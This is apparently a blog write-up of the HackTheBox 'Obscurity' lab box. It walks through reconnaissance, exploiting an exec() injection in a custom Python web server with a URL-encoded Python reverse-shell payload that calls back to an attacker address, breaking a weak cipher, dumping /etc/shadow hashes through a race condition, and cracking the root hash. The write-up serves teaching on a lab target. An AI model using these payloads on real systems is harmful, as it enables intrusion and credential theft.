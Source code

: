 ```yaml
---
Title: HackTheBox Obscurity
Date: 2020-01-12
Category: Challenges
Status: published
---
```


Obscurity is a medium-difficulty box. It was super fun to solve because it involved great excuses for me to write some neat little helper scripts and find a vulnerability in Python code. Something you don't do too often in these challenges. Let's dive right in with a nmap scan:

```sh
$ nmap -sS -sC -oN obscurity.nmap -v 10.10.10.168
Nmap 7.80 scan initiated Fri Jan 10 12:57:06 2020 as: nmap -sS -sC -oN obscurity.nmap -v 10.10.10.168
Nmap scan report for 10.10.10.168
Host is up (0.16s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
| ssh-hostkey:
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: 0bscura
9000/tcp closed cslistener

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Jan 10 12:57:35 2020 -- 1 IP address (1 host up) scanned in 29.44 seconds
```

Checking port 8080 on the server, we find the following text:

```
Here at 0bscura, we take a unique approach to security: you can't be hacked if attackers don't know what software you're using!

That's why our motto is 'security through obscurity'; we write all our own software from scratch, even the webserver this is running on! This means that no exploits can possibly exist for it, which means it's totally secure!
```

Challenge accepted. The developer message mentions a file: `SuperSecureServer.py`. Let's see whether we can find the code by assuming it's one directory deep in the server's file structure. For that, we can use `wfuzz`:

```sh
$ wfuzz -w /usr/share/wordlists/wfuzz/general/big.txt --hc 404 http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
********************************************************
* Wfuzz 2.4.2 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.168:8080/FUZZ/SuperSecureServer.py
Total requests: 3024

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000829:   200        170 L    498 W    5892 Ch     "develop"
```

Bingo. Now we can download the server's code at `http://10.10.10.168:8080/develop/SuperSecureServer.py`. Browsing through it, there is a method of note:

```python
    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
```

Obviously, the `exec` call here is alarming. It allows us to execute arbitrary code with server-level privileges. To accomplish this, we simply need to terminate the `info` variable's encoded string and add any code we want to run afterward. I have taken a standard Python TCP reverse shell payload and updated it to accommodate the faulty string parsing. The result:

```python
';import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash");s='
```

We can now URL-encode this payload and make the call to the server to inject our code into the server's runtime:

```sh
$ http -v "http://10.10.10.168:8080/%27%3Bimport%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.14.9%22%2C4242%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%3Bs%3D%27"
```

With our netcat listener on local port 4242, we now receive an incoming connection as the user `obscure`. Scanning through the filesystem, we find an unprotected home directory owned by the user `robert`:

```sh
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 .
drwxr-xr-x 3 root   root   4096 Sep 24 22:09 ..
lrwxrwxrwx 1 robert robert    9 Sep 28 23:28 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3771 Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
drwx------ 2 robert robert 4096 Oct  3 16:02 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26 23:08 check.txt
drwxr-x--- 3 robert robert 4096 Dec  2 09:53 .config
drwx------ 3 robert robert 4096 Oct  3 22:42 .gnupg
drwxrwxr-x 3 robert robert 4096 Oct  3 16:34 .local
-rw-rw-r-- 1 robert robert  185 Oct  4 15:01 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4 15:01 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2514 Oct  4 14:55 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25 14:12 user.txt
```

The `passwordreminder.txt` and `out.txt` files are encrypted. Luckily, the `check.txt` file gives us the plaintext, which allows us to recover the key. With the plaintext:

```
Encrypting this file with your key should result in out.txt, make sure your key is correct!
```

We assume that the key is repeated, and key bytes are added onto the plaintext bytes (wrapping around 255 to stay in the valid ASCII range). Our proof-of-concept attack will simply subtract the ciphertext from the cleartext bytes in the same fashion, and what's left should be our key. In an ipython session, we write up some quick code:

```python
In [5]: with open("out.txt") as f:
   ...:     encrypted = f.read()
   ...:

In [6]: cleartext = "Encrypting this file with your key should result in out.txt, make sure your key is correct!"

In [7]: def decrypt(text, key):
   ...:     keylen = len(key)
   ...:     keyPos = 0
   ...:     decrypted = ""
   ...:     for x in text:
   ...:         keyChr = key[keyPos]
   ...:         newChr = ord(x)
   ...:         newChr = chr((newChr - ord(keyChr)) % 255)
   ...:         decrypted += newChr
   ...:         keyPos += 1
   ...:         keyPos = keyPos % keylen
   ...:     return decrypted
   ...:

In [8]: decrypt(encrypted, cleartext)
Out[8]: 'alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich<\x08'
```

The attack leaves us with the key `alexandrovich`. With the server executable, we can now proceed to decode the password
reminder file:

```sh
$ python3 SuperSecureCrypt.py -i passwordreminder.txt -k alexandrovich -o decoded.txt -d
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file passwordreminder.txt...
Decrypting...
Writing to decoded.txt...Password reminder:
SecThruObsFTW
```

This is not just a password reminder but the actual password for `robert`. Logging in as him allows us to get the user flag in his home directory. A quick look at his sudo permission gives us the next interesting escalation vector:

```sh
$ sudo -l
(ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

Trying to execute the program, we get an error, however:

```sh
$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: root
Enter password:
Traceback (most recent call last):
  File "/home/robert/BetterSSH/BetterSSH.py", line 24, in <module>
    with open('/tmp/SSH/'+path, 'w') as f:
FileNotFoundError: [Errno 2] No such file or directory: '/tmp/SSH/rTO4rmUa'
```

No problem, we'll just create the directory `/tmp/SSH`. In the `BetterSSH` script, we can exploit a race condition where the shadow file's password hashes are leaking in the temp directory. In the server code:

```python
    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords])
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
```

So we launch a second SSH session as `robert` where we execute the following one-liner trying to dump the contents:

```sh
while true; do for f in `ls /tmp/SSH`; do cat /tmp/SSH/$f; done; done
```

In our main session, we launch the `BetterSSH` script until we get a successful dump. The method is a bit flaky due to the timing, but after a few attempts, we get the following credentials:

```
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7
```

The root password hash is quite easily cracked with JohnTheRipper:

```sh
$ john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2020-01-10 16:41) 3.846g/s 1969p/s 1969c/s 1969C/s 123456..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Using the password `mercedes` we can finally authenticate against the `BetterSSH` script and log in as root:

```sh
$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: root
Enter password: mercedes
Authed!
root@Obscure$
```

We get a custom shell, but it's good enough to dump the root flag. And that concludes our little adventure into breaking security by obscurity.
